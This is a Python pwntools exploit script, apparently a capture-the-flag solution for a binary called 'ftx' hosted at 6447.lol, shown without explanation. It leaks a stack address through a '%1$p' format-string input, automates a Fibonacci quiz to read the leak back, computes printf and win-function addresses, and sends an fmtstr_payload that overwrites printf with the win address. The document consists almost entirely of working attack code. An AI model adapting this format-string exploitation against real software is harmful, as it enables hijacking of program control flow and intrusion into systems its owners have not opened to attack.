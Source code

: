 ```
        if len(options) == 5:
            break
        line = p.recvline().decode()
        if ')' in line:
            num = int(line.split(')')[1].strip())
            # print('num: ', num)
            options.append(num)

    non_fib = None
    for num in options:
        if not is_fibonacci(num):
            non_fib = num
            break
    #
    if non_fib is not None:
        p.sendline(str(options.index(non_fib) + 1).encode())

    if debug:
        line = p.recvuntil(b"succubus.").decode()
        match = re.search(r'Well done, (.*?)!', line)
        if match:
            value = match.group(1).strip()
            print(f"line {line}\nExtracted value: {value}\n")
            return value
        return None


context.arch = 'amd64'
if args.REMOTE:
    p = remote('6447.lol', 4002)
elif args.HOST:
    p = process('./ftx')
else:
    context.terminal = ['tmux', 'splitw', '-h', '-p', '70']
    p = gdb.debug('./ftx',
                  gdbscript='''
                  b *do_gamble+449
                  c
                  ''')

p.recvuntil(b"Hello friend, welcome to FTX. what's your handle?")
p.sendline(b"%1$p")
ret = gamble()
printf_addr = hextoint(ret) - 640
win_addr = printf_addr - 12351
print('printf_addr', hex(printf_addr))
print('win_addr', hex(win_addr))

payload = fmtstr_payload(offset=8, writes={
    printf_addr: win_addr
})

## got the offset = 8
# for i in range(10):
# # overwrite printf addr
#     p.sendlineafter('Press any key to continue...', b'\nc')
#     p.sendlineafter("what's your handle?", '%{}$p'.format(i + 1).encode())
#     gamble()

p.sendlineafter('Press any key to continue...', b'c')
p.sendlineafter('What will you do?', b'c')
print(payload)
p.sendlineafter("what's your handle?", payload)
```